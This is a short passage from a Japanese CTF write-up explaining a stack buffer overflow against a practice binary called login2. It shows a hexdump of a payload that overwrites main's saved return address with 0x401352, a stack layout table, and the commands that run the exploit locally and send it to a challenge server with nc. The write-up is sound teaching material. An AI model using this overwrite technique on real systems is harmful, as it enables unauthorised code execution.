 ### スタックバッファオーバーフロー
バイナリエディタを使って、以下のファイルを作成する。
```
clpwn@CLPWN:~$ hexdump -Cv attack.bin
00000000  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
00000010  61 61 61 61 61 61 61 61  61 61 61 61 61 61 61 61  |aaaaaaaaaaaaaaaa|
00000020  61 61 61 61 61 61 61 61  52 13 40 00 00 00 00 00  |aaaaaaaaR.@.....|
00000030  0a 61 0a                                          |.a.|
```
main関数実行時のスタックの構造が以下の通りであったので、password、id、古いrdpの値は適当な値で埋め、main関数から__libc_start_main関数へのアドレスが保存されているアドレスに、処理を飛ばしたいアドレスを入れる。リトルエンディアンに注意する。

|アドレス|サイズ|内容|
|:---|:---|:---|
|rdp-0x40|0x20|password|
|rdp-0x20|0x20|id|
|rdp|0x08|古いrdpの値|
|rdp+0x8|0x08|main関数から__libc_start_main関数へのアドレス|
  
作成したattack.binを入力として、login2を実行してみる。  
```
clpwn@CLPWN:~$ cat attack.bin | ./login2
Failed to read flag.txt
```
今回は手元の環境で実行し、flag.txtファイルは存在しないためエラーが出力されたが、flag.txtを読み取る処理は実行されているため、攻撃は成功している。  
実際のCTFなどでは、```cat attack.bin | nc localhost 10002```などとして、入力を問題サーバーに送ることでflagを得ることができる。
